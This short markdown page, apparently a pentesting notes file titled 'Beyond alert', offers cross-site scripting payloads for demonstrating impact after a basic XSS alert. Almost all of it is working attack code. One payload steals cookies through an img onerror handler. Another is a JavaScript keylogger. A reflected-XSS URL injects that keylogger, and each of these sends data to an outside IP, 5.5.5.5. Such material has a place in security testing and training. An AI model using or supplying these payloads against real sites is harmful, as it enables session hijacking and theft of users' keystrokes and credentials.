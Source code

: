 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
  ```js
  <img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
  ```

- Record key stokes

  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```
  Then call the script in using xss
  ```js
  http://target.site/welcome.php?user=admin<script src>'http://5.5.5.5/keylogger.js'></script>
  ```

